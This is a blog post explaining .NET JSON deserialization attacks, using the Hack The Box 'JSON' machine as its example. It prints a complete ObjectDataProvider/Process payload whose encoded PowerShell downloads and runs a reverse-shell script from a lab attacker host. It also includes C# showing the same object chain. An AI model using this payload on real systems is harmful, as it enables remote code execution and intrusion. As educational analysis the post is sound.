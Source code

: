 [Home](https://plackyhacker.github.io)

# Deserialization - Object Instantiation for Remote Code Execution
 
I am currently studying Offensive Security Advanced Web Attacks and Exploitation (WEB-300). One of the sections in the curriculum is a Dot Net Nuke (DNN) deserialization vulnerability leading to code execution.

I have carried out some deserialization attacks before (all legal of course), and whilst I understood the concept behind them I had never really thought about how the RCE occurs.

I decided to have a look at the underlying .Net objects to demonstrate what is happening under the hood once the deserialization has been carried out and the object has been instantiated.

Hopefully this will help others to understand why code execution is achieved.

The questions I am going to try and answer are:

- What is a deserialization vulnerability?
- What is an `ObjectDataProvider`?
- How does the PowerShell script get executed automatically?

I am not going to discuss the code of a deserialization vulnerability as that has been done many times before... maybe instantiation has too... I don't really know... or care!

## Deserialization Vulnerabilities

According to [OWASP (2017)](https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization) 'the impact of deserialization flaws cannot be overstated. These flaws can lead to remote code execution attacks, one of the most serious attacks possible'.

Serialization is the operation of taking an object or objects in memory and encoding them into a stream of bytes that can be stored (for example to a datase or file) or transmit (for example over a network). Deserialization is the opposite of serialization, a stream of bytes is taken and used to reconstruct an object or objects in memory. Examples of serialization outputs are XML and JSON.

Serialization can be very useful for transmitting objects over a network where two discontiguous systems can effectively contain the same state in terms of object instantiations.

<img width="273" alt="Screenshot 2022-06-06 at 19 05 06" src="https://user-images.githubusercontent.com/42491100/172219463-bc6dcf9e-e317-470d-abbc-a70902cfea64.png">

If the target application has a deserialization vulnerability then it may be possible to submit unsanitized JSON/XML to the web application and trigger code execution.

## An Example - JSON

The hack the box JSON machine is a perfect example to explain the underlying object instantiation. The HTTP POST payload used to exploit JSON is shown below:

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c powershell.exe  -exec bypass -enc SQBFAFgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANAAvAHIAZQB2AC4AcABzADEAIgApAA==']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

When the web application deserializes the JSON object it spawns a reverse shell, but why?

## ObjectDataProvider

The `ObjectDataProvider` class wraps and creates an object that you can use as a binding source. A binding source is used to bind underlying data to a form control. We aren't too interested in that, what we are interested in is that it can act as a wrapper to instantiate a class and call a method in the instantiated object.

### PowerShell Execution

Our goal is to get PowerShell execution on the target. In C# we can do that with the following code:

```csharp
Process p = new Process();
p.Start("cmd", "/c powershell.exe  -exec bypass -enc ...");
```

Unfortunately we cannot do this from a web browser. What we can do is abuse the vulnerable JSON deserializer to instantiate an `ObjectDataProvider` which in turn will instantiate a `Process` and call the `Start()` method automatically upon instantiation. In C# it looks like this:

```csharp
ObjectDataProvider provider = new ObjectDataProvider();

provider.MethodName = "Start";
provider.MethodParameters.Add("cmd");
provider.MethodParameters.Add("/c powershell.exe  -exec bypass -enc ...");
provider.ObjectInstance = new Process();
```

The JSON deserializer creates these objects as part of the deserialization process and the `ObjectDataProvider` does its magic and calls the `Start()` method on our behalf!

[Home](https://plackyhacker.github.io)
